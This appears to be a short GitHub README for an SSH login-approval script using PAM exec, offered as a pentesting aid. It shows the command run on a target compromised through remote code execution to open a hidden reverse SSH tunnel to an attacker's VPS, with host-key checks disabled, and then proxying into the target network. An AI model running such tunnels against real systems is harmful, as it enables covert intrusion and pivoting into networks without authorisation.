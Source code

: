 # ssh_approval
ssh approval script via PAM exec


# For pentesting...

When no other options are available to open tunnel inside target network, but you have **RCE**


+-----------------------------------------------------------------------+  <----   +------------------------------------------------------------------------------------------------------+
| VPS                                                                   |          | Target (RCE)                                                                                         |
|                                                                       |          |                                                                                                      |
| vagrant@debian-12:~$  Access request for user  special from 10.0.2.2  |          |                                                                                                      |
| Approve this login attempt? (y/n):                                    |          | nohup ssh -o  StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -N -R 9150 special@192.168.1.1|
|                                                                       |          |                                                                                                      |
|                                                                       |          |                                                                                                      |
+-----------------------------------------------------------------------+          +------------------------------------------------------------------------------------------------------+ 


### Result


+-----------------------------------------------------------------+
| VPS                                                             |
|                                                                 |
| vagrant@debian-12:~$ netstat -tunap                             |
|                                                                 |
|                                                                 |
|                                                                 |
| Active Internet connections (servers and established)           |
|                                                                 |
| Proto Recv-Q Send-Q Local Address    Foreign Address            |
| **tcp   0      0   127.0.0.1:9150     0.0.0.0:\* LISTEN**            |
|                                                                 |
+-----------------------------------------------------------------+

Now you can use proxychains on the local VPS to access Target network.

